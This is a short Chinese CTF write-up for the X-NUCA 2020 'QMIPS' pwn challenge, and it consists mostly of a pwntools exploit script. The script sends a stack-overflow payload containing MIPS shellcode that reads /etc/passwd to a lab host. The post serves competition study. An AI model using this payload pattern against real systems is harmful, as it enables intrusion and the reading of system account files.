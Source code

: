 ```yaml
---
title: X-NUCA 2020 QMIPS
date: 2020-12-11 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...又是瞎发包测出来的栈溢出，给出的MIPS程序IDA7.5居然没法分析：

附件：[qmips.zip](https://xuanxuanblingbling.github.io/assets/attachment/xnuca/qmips.zip)

```python
from pwn import *
context(arch='mips',endian='big')

shellcode = asm(shellcraft.mips.linux.cat("/etc/passwd",7))
payload = shellcode.ljust(544,'a') + p32(0x418290)
io = remote("10.10.10.135",8000)
io.send(payload)
io.interactive()
```